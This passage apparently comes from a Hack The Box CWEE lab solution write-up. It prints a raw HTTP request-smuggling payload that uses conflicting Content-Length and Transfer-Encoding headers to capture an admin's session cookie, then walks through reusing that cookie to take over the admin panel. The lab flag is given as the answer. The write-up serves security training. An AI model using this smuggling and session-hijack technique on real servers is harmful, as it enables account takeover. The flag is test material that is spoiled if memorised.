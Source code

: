 Code: http

```http
POST / HTTP/1.1
Host: STMIP:STMPO
Content-Type: application/x-www-form-urlencoded
Content-Length: 235
Transfer-Encoding: chunked

0

POST /comments.php HTTP/1.1
Host: STMIP:STMPO
Content-Type: application/x-www-form-urlencoded
Content-Length: 300
Cookie: PHPSESSID=7hgqcc2a31mbktd315h955n7v0

csrf=64090f99b1e192.41079284&name=RyanSam&comment=Testing
```

![[HTB Solutions/CWEE/z. images/04306b5ea0f3f8553c344ede98049e90_MD5.jpg]]

After sending the request and waiting for 10 seconds, students will find that the admin has been coerced into submitting their GET request to `/` as a comment, thus, exposing the session cookie `session=fd1dt4khy36dthmc`:

![[HTB Solutions/CWEE/z. images/a8df6f1e694676962b08726a7cad152d_MD5.jpg]]

Students need to navigate to the "Admin Area" and edit the already existing cookie to that of the admin, `session=fd1dt4khy36dthmc`:

![[HTB Solutions/CWEE/z. images/05cf391d382036dd2f5b96c3d1aabe85_MD5.jpg]]

After refreshing the webpage, students will attain access to the admin panel and find the flag `HTB{9ddd29fda379175be3d2ed1e6620677d}`:

![[HTB Solutions/CWEE/z. images/93b075c5b85ab4a3287e4a95898fafcb_MD5.jpg]]

Answer: `HTB{9ddd29fda379175be3d2ed1e6620677d}`

# HTTP/2 Downgrading

## Question 1

### "Try to use what you learned in this section to exploit request smuggling due to HTTP/2 downgrading to force the admin user to reveal the flag. NOTE: you need to access the lab via HTTPS."

After spawning the target machine, students need to visit the website's root webpage using `HTTPs`:

![[HTB Solutions/CWEE/z. images/5c5f827f3598770214de5f81eba2c5b9_MD5.jpg]]

